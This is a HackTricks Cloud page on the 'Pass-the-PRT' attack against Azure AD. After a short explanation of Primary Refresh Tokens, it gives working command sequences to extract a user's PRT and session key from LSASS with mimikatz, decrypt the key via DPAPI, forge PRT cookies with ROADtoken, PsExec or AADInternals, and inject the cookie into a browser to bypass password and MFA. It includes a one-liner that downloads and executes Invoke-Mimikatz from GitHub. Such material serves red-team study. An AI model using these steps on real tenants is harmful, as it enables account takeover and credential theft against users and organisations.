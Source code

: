 # Az - Pass the PRT

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## What is a PRT

A **Primary Refresh Token (PRT)** is used to provide a **single sign-on (SSO)** experience for users of Windows 10 and mobile OSes.

When you log in in a device supporting thins SSO, Windows will **communicate with the Cloud Authentication Provider, validate** your credentials and **returns** the **PRT** and a **session key**. The **PRT is stored in LSASS**, and the **session key gets re-encrypted** with the local devices TPM and then stored alongside the PRT.

Then, when the **browser** tries to access resources on the cloud, a **PRT cookie** is used to access them.

Once issued, a **PRT** is **valid** for **14 days** and is **continuously renewed** as long as the user actively uses the device. A PRT only has **MFA claims** if when accessing RDP you use **windows hello** or **windows account manager**.

It can be used to obtain access and refresh token to any application.

For more information about how this works read the [**documentation**](https://docs.microsoft.com/en-us/azure/active-directory/devices/concept-primary-refresh-token) or [**this page**](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/).

### Check if you have a PRT

```
Dsregcmd.exe /status
```

In the SSO State section, you should see the **`AzureAdPrt`** set to **YES**.

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

In the same output you can also see if the **device is joined to Azure** (in the field `AzureAdJoined`):

<figure><img src="../../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

## Pass-the-PRT

### Steps

1. **Extract** the **PRT from LSASS** and save this for later.
2. **Extract** the **Session Key**. If you remember this is issued and then re-encrypted by the local device, so we need to **decrypt this using a DPAPI masterkey**. For more info about DPAPI check this [**HackTricks**](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords) link or the [**Pass-the-cookie attack**](az-pass-the-cookie.md).
3. Using the decrypted Session Key, we will obtain the derived key for the PRT and the context. This is needed to **create our PRT cookie**. The derived key is what is used to sign the JWT for the cookie. Dirk-jan did a great job explaining this process [here](https://dirkjanm.io/digging-further-into-the-primary-refresh-token/).

Now we have everything we need to sign our own PRT Cookies and the rest of these steps can be done from any other system.

* We will use the PRT, derived key, and context to create a new PRT Cookie.
* Import the cookie into your browser session (we’ll use Chrome)
* That’s it! You should now be authenticated as that user without having to know their password, or handle any MFA prompts.

### Attack - Roadtoken

For more info about this way [**check this post**](https://dirkjanm.io/abusing-azure-ad-sso-with-the-primary-refresh-token/). To generate a valid PRT cookie the first thing you need is a nonce.\
You can get this with:

```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
    "URI"     = $URL
    "Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```

Or using [**roadrecon**](https://github.com/dirkjanm/ROADtools):

```powershell
roadrecon auth prt-init
```

Then you can use [**roadtoken**](https://github.com/dirkjanm/ROADtoken) to get a new PRT (run in the tool from a process of the user to attack):

```powershell
.\ROADtoken.exe <nonce>
```

As oneliner:

{% code overflow="wrap" %}
```powershell
Invoke-Command - Session $ps_sess -ScriptBlock{C:\Users\Public\PsExec64.exe - accepteula -s "cmd.exe" " /c C:\Users\Public\SessionExecCommand.exe UserToImpersonate C:\Users\Public\ROADToken.exe AwABAAAAAAACAOz_BAD0__kdshsy61GF75SGhs_[...] > C:\Users\Public\PRT.txt"}
```
{% endcode %}

Then you can use the **generated cookie** to **generate tokens** to **login** using Azure AD **Graph** or Microsoft Graph:

```powershell
roadrecon auth --prt-cookie <prt_cookie>

Connect-AzureAD --AadAccessToken <token> --IaccountId <acc_ind>
```

### Attack - Using AADInternals

`Get-AADIntUserPRTToken` **gets user’s PRT token** from the Azure AD joined or Hybrid joined computer. Uses `BrowserCore.exe` to get the PRT token.

```powershell
# Get the PRToken
$prtToken = Get-AADIntUserPRTToken

# Get an access token for AAD Graph API and save to cache
Get-AADIntAccessTokenForAADGraph -PRTToken $prtToken
```

### ~~Attack - Mimikatz~~

{% hint style="warning" %}
This won't work post August 2021 fixes as only the user can get his PRT (a local admin cannot access other users PRTs)
{% endhint %}

You can use **mimikatz** to extract the PRT:

```powershell
mimikatz.exe
Privilege::debug
Sekurlsa::cloudap

# Or in powershell
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap"'
```

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

**Copy** the part labeled **Prt** and save it.\
Extract also the session key or “**ProofOfPosessionKey**” which you can see highlighted below. This is encrypted and we will need to use our DPAPI masterkeys to decrypt it.

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
If you don’t see any PRT data it could be that you **don’t have any PRTs** because your device isn’t Azure AD joined or it could be you are **running an old version** of Windows 10.
{% endhint %}

To **decrypt** the session key you need to **elevate** your privileges to **SYSTEM** to run under the computer context to be able to use the **DPAPI masterkey to decrypt it**. You can use the following commands to do so:

```
Token::elevate
Dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```

<figure><img src="../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Now you want to copy both the Context value:

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

And the derived key value:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Finally you can use all this info to **generate PRT cookies**:

```
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```

<figure><img src="../../../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

Go to [https://login.microsoftonline.com](https://login.microsoftonline.com), clear all cookies for login.microsoftonline.com and enter a new cookie.

```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
HttpOnly: Set to True (checked)
```

{% hint style="danger" %}
The rest should be the defaults. Make sure you can refresh the page and the cookie doesn’t disappear, if it does, you may have made a mistake and have to go through the process again. If it doesn’t, you should be good.
{% endhint %}

## References

* This post was mostly extracted from [https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/](https://stealthbits.com/blog/lateral-movement-to-the-cloud-pass-the-prt/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
